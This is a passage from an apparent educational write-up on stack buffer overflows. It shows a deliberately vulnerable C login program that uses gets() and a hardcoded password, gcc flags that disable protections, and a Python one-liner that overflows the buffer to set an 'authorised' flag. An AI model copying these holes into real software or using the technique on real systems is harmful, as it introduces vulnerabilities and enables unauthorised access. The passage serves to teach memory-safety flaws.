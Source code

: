 ```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    char password[6];
    int authorised = 0;

    printf("Enter admin password: \n");
    gets(password);

    if(strcmp(password, "pass") == 0)
    {
        printf("Correct Password!\n");
        authorised = 1;
    }
    else
    {
        printf("Incorrect Password!\n");
    }

    if(authorised)
    {
        printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
    }else{
		printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
	}

    return 0;
}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie -m32
```

This suffers from a buffer overflow attack. The `password` string is only allocated with 6 characters, which is 6 bytes. It uses `gets`, which writes data into the specified buffer, regardless of input size. And the password itself has been hardcoded into the software.

What we can do is try inputing more characters than the buffer can handle, but that will result in a segfault and crash the program. The integer `authorised` was initialized after `password`, meaning it lies below (because the stack grows downwards) the password in the stack.

If the `password` buffer overflows, it will overflow into the integer, and since the code only checks if `authorised` is a non-zero value, we can just input more than 6 to 10 characters, which overflows the buffer into `authorised`, which it's set to a non-zero value (depending on which ascii character we used).

We can also do something like this just to automate the exploit process a little bit. The below command will input 6 `a`'s and put an `0x01` to overflow into `authorised` and set it to 1:

```bash
python -c "print('a' * 6 + '\x01')" | ./prog
```

We could also 